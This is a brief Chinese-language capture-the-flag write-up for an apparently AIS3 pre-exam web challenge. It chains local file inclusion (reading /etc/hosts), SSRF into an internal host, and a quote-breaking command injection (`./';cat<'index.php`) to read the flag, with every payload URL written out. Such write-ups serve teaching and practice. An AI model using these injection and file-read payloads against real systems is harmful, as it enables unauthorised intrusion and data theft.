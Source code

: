 ### d1v1n6 d33p3r
- 上一題的接續 LFI到處看看
- payload: `http://pre-exam-web.ais3.org:10103/?path=/etc/hosts`
- 發現這台是架在`172.22.0.3` 於是就附近晃晃發現了`172.22.0.2`這台deeper
- 裡面是ls的web shell 先來光顧一下
- payload: `http://pre-exam-web.ais3.org:10103/?path=http://root@172.22.0.2/?dir=./`
- 晃晃之後沒發現可疑的檔案 進一步想應該是cmdi 然後flag就在deeper的index.php裡
- 猜想server是這樣解析input的 `ls -al '{dir}'`
- 於是構造payload: `./';cat<'index.php`
- 使得cmd變成 `ls -al './';cat<'index.php'`
- payload: `http://pre-exam-web.ais3.org:10103/?path=http://root@172.22.0.2/?dir=./%27;cat%3C%27index.php`
- 拿到flag
